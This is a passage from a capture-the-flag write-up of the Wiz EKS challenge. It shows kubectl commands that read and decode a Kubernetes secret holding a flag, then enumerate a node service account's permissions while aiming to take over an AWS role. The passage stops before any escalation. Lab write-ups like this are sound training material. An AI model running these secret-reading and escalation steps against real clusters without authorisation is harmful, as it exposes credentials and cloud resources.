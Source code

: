So we just need to base64 decode that and we are on to the next challenge!

```bash
root@wiz-eks-challenge:~# kubectl --token "$TOKEN" get secret -o json | jq '.items[0].data.flag' -r|base64 -d
wiz_eks_challenge{only_a_real_pro_can_navigate_<*REDACTED*>}
```

# Challenge 5
The hint:

```
You've successfully transitioned from a limited Service Account to a Node
Service Account! Great job. Your next challenge is to move from the EKS to the
AWS account.

Can you acquire the AWS role of the s3access-sa service account, and get the flag?
```

So lets start with checking what access we do have:

```bash
root@wiz-eks-challenge:~# kubectl whoami 
system:node:challenge:ip-192-168-21-50.us-west-1.compute.internal
```

Can we list buckets?

```bash
root@wiz-eks-challenge:~# aws s3 ls

An error occurred (AccessDenied) when calling the ListBuckets operation: Access Denied
```

Nope!  So we need to figure out how to become the `s3access-sa`. What access do
we have?

```bash
root@wiz-eks-challenge:~# kubectl auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs   Resource Names     Verbs
serviceaccounts/token                           []                  [debug-sa]         [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []                 [create]
pods                                            []                  []                 [get list]
secrets                                         []                  []                 [get list]
serviceaccounts                                 []                  []                 [get list]
                                                [/api/*]            []                 [get]
                                                [/api]              []                 [get]
                                                [/apis/*]           []                 [get]
                                                [/apis]             []                 [get]
                                                [/healthz]          []                 [get]
                                                [/healthz]          []                 [get]
                                                [/livez]            []                 [get]
                                                [/livez]            []                 [get]
                                                [/openapi/*]        []                 [get]
                                                [/openapi]          []                 [get]
                                                [/readyz]           []                 [get]
                                                [/readyz]           []                 [get]
                                                [/version/]         []                 [get]
                                                [/version/]         []                 [get]
                                                [/version]          []                 [get]
                                                [/version]          []                 [get]
podsecuritypolicies.policy                      []                  [eks.privileged]   [use]
```
